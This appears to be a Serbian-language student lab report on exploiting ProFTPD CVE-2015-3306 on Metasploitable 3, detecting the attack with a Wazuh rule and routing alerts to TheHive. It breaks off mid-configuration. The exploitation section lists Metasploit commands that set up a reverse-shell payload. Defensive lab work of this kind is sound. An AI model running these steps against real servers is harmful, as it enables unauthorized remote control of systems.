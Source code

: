 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Ime i prezime: Ognjen Radovanović R2 9/2024

---

## Pregled ranjivosti

### 1.1 Informacije o ranjivosti

- **ID ranjivosti (CVE):** CVE-2015-3306
- **Pogođen servis:** ProFTPD
- **CVSS ocena:** 9.8
- **Opis ranjivosti:** Ranjivost se odnosi na `mod_copy` modul u ProFTPD verziji 1.3.5, koji omogućava udaljenim napadačima da čitaju i pišu u proizvoljne fajlove korišćenjem FTP komandi `SITE CPFR` i `SITE CPTO`. Ranjivost omogućava neautorizovan pristup fajlovima na sistemu i potencijalno daljinsko preuzimanje kontrole nad pogođenim serverom.

### 1.2 Opis eksploita

**Metod eksploatacije:**

Eksploatacija ranjivosti koristi komandni interfejs Metasploit Framework-a kako bi se iskoristila ranjivost u `mod_copy` modulu. Napad uključuje korišćenje komandi `SITE CPFR` i `SITE CPTO` za premeštanje malicioznog payload-a na serveru.

---

## Proces eksploatacije

### 2.1 Podešavanje eksploita

**Ranjiv cilj:**

- Operativni sistem: Metasploitable 3 Ubuntu
- Verzija ProFTPD-a: 1.3.5
- Portovi: FTP (21), HTTP (80)

**Alati za eksploataciju:**

- Metasploit Framework
- Alat za testiranje mreža (npr. `nmap` za detekciju servisa i verzija)

### 2.2 Koraci eksploatacije

1. **Pokretanje Metasploit Framework-a:**

   ```bash
   msfconsole
   ```
2. **Pronalaženje odgovarajućeg modula:**

   ```bash
   search proftpd
   ```

   Odabiramo modul `exploit/unix/ftp/proftpd_modcopy_exec` za eksploataciju.

   ```bash
   use exploit/unix/ftp/proftpd_modcopy_exec
   ```
3. **Odabiramo payload `cmd/unix/reverse_perl`.**

   ```bash
   use cmd/unix/reverse_perl
   ```
4. **Postavljamo sitepath.**

   ```bash
   set sitepath /var/www/html
   ```
5. **Podešavanje parametara eksploita:**

   - Postavljamo IP adresu cilja:
     ```bash
     set RHOST <CILJ_IP>
     ```
   - Postavljamo port cilja:
     ```bash
     set RPORT 21
     ```
   - Postavljamo IP adresu napadača za reverse shell konekciju:
     ```bash
     set LHOST <NAPADAC_IP>
     ```
   - Postavljamo lokalni port za reverse shell konekciju:
     ```bash
     set LPORT 4444
     ```
6. **Pokretanje eksploita:**

   ```bash
   exploit
   ```

### 2.3 Rezultat eksploatacije

Eksploatacija je uspešno izvršena. Ostvarena je Metasploit Meterpreter sesija na ciljnom sistemu, omogućavajući daljinski pristup fajlovima i sistemskim komandama.

---

## Detekcija korišćenjem Wazuh SIEM-a

### 3.1 Pravila za detekciju

**Dodato pravilo u Wazuh SIEM-u:**

U fajlu `/var/ossec/etc/rules/local_rules.xml` dodat je sledeći unos za detekciju malicioznih `SITE CPFR` i `SITE CPTO` komandi:

```xml
<group name="proftpdgroup">
    <rule id="100003" level="12">
        <description>ProFTPD mod_copy attack detected</description>
        <match>SITE CPFR|SITE CPTO</match>
        <options>no_full_log</options>
        <mitre>
            <id>T1021</id>
        </mitre>
    </rule>
</group>
```

- **ID pravila:** `100003`
- **Mitre ID:** `T1021`
- **Level:** `12`
- **Opis pravila:** Pravilo detektuje FTP komande koje se koriste za eksploataciju `mod_copy` modula.

### 3.2 Konfiguracija SIEM-a

**Postavljanje Wazuh agenta:**

Agent je instaliran na ciljnoj mašini korišćenjem naredbe:

```bash
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb
sudo WAZUH_MANAGER='<MANAGER_IP>' WAZUH_AGENT_NAME='<CILJ_IMENA>' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

Agent se zatim pokreće:

```bash
sudo /var/ossec/bin/wazuh-control start
```

**Prikupljanje logova:**

Dodato je praćenje FTP logova u `ossec.conf` fajlu:

```xml
<localfile>
  <location>/var/log/proftpd/proftpd.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Proces detekcije

Nakon pokretanja eksploita, u logovima se beleže maliciozne komande `SITE CPFR` i `SITE CPTO`, koje su detektovane kao potencijalni napad. Wazuh generiše alarme sa detaljima o izvornoj IP adresi napadača.

---

## Incident Response sa The Hive-om

### 4.1 Podešavanje integracije

**Opis integracije:**

Wazuh je konfigurisan za integraciju sa The Hive-om kako bi svi detektovani incidenti bili automatski prosleđeni. Koristi se Python skripta za komunikaciju sa API-em The Hive-a, koja kreira novi incident za svaki relevantan alarm.

**Dodavanje pravila u integraciju:**

Konfiguracija u Wazuh menadžru za integraciju sa The Hive-om izgleda ovako:

```xml
<integration>
  <name>thehive</name>
  <hook_url>http://<THE_HIVE_IP>:9000/api/alert</hook_url>
  <api_key><API_KEY></api_key>
  <level>10</level>
</integr
```
